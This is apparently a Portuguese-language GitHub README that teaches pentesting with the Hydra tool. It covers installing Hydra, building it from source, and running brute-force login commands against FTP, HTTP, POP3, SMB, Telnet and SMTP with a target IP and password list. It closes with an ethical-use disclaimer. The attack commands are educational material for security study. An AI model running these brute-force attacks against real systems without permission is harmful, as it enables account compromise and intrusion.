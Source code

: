 # Pentesting com Hydra - Guia Educacional

Este repositório é criado estritamente para fins educacionais.

## Introdução
<justify>
Neste repositório abordarei mais a respeito do Hydra, que é um software conhecido em segurança da informação e pentest. Não é exatamente uma ferramenta "hacker", mas sim uma ferramenta que pode ser usada por profissionais para testar a segurança de sistemas e redes e analisar suas vulnerabilidades.

**Se você se conhece, mas não conhece o inimigo, para cada vitória ganha. sofrerá também uma derrota. - Antigo proverbio chinês.**
</justify>

 ##  1. instalação do Hydra
**Verifique se o Hydra já está instalado: Alguns sistemas Linux, como o Kali Linux, já possuem o Hydra pré-instalado. Você pode verificar se ele está instalado digitando o seguinte comando no terminal:**
-  ```bash
    hydra --version
Se o Hydra estiver instalado, ele mostrará a versão. Se não estiver instalado, siga as etapas abaixo para instalar.

## 2. Instale as dependências: O Hydra requer algumas bibliotecas e pacotes para funcionar corretamente. Para instalá-las, você pode usar o gerenciador de pacotes do seu sistema. Abaixo estão os comandos para instalar as dependências em sistemas populares:

1. ### Para sistemas baseados no Debian (como o Ubuntu):
-  ```bash
    sudo apt update
-  ```bash
    sudo apt install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev libncp-dev
  
2. ### Para sistemas baseados no Red Hat (como o CentOS e o Fedora):
-  ```bash
    sudo yum install openssl-devel libssh-devel libidn-devel pcre-devel gtk2-devel mysql-devel postgresql-devel subversion-devel libncp-devel

## 3 Baixe e compile o Hydra:

### 3.1. Vá para o site oficial do Hydra (https://github.com/vanhauser-thc/thc-hydra) para obter o código-fonte mais recente. Você pode clonar o repositório usando o Git:
-  ```bash
    git clone https://github.com/vanhauser-thc/thc-hydra.git
### 3.2. Navegue até o diretório do Hydra:
-  ```bash
    cd thc-hydra
### 3.3. Compile o Hydra:
-  ```bash
    ./configure
     make
    sudo make install
**Verifique a instalação:**
Após a instalação, você pode verificar se o Hydra está funcionando corretamente executando o comando:
-  ```bash
    hydra --version
## 4. Comandos Básicos do Hydra
<justify>
Nos comandos o “username” é o nome do usuário que você deseja atacar e “password_list.txt” é o nome do arquivo de lista de senhas que você deseja usar para o ataque. O “target_ip” é o endereço IP do servidor que você deseja atacar.
</justify>

4.1 Força Bruta em FTP:
-  ```bash
    hydra -l username -P password_list.txt ftp://target_ip
4.2 Força Bruta em HTTP:
- ```bash
    hydra -L user_list.txt -P password_list.txt http://target_ip
4.3 Força Bruta em POP3:
- ```bash
    hydra -l username -P password_list.txt pop3://target_ip
4.4 Força Bruta em SMB:
- ```bash
    hydra -l username -P password_list.txt smb://target_ip
4.5 Força Bruta em Telnet:
- ```bash
   hydra -l username -P password_list.txt telnet://target_ip
4.6 Força Bruta em SMTP:
- ```bash
   hydra -l username -P password_list.txt smtp://target_ip
## Aviso
<justify>
Este repositório é apenas para fins educacionais. Não promovemos atividades ilegais ou antiéticas. Certifique-se de obedecer às leis locais e diretrizes éticas ao usar o Hydra e outras ferramentas de segurança.
Lembre-se de usar esses comandos de maneira responsável e ética. A segurança cibernética é um campo sério e deve ser usada para fins legítimos, como testar a segurança de seus próprios sistemas ou com permissão legal.
Sinta-se à vontade para explorar os comandos acima e aprofundar seu conhecimento em testes de penetração com o Hydra. Lembre-se de usá-los de maneira responsável e respeitando a privacidade e a segurança de terceiros.
<justify>

## Contato
Se você tiver alguma dúvida, comentário ou feedback, sinta-se à vontade para entrar em contato:

- **Email:** alissondaviddev@gmail.com
- **LinkedIn:** [alisson-melo95](https://www.linkedin.com/in/alisson-melo95/) 
- **Site Pessoal:** [Portifólio](https://alissondev.tech)
- **GitHub:** [@Daviddust95](https://github.com/Daviddust95)
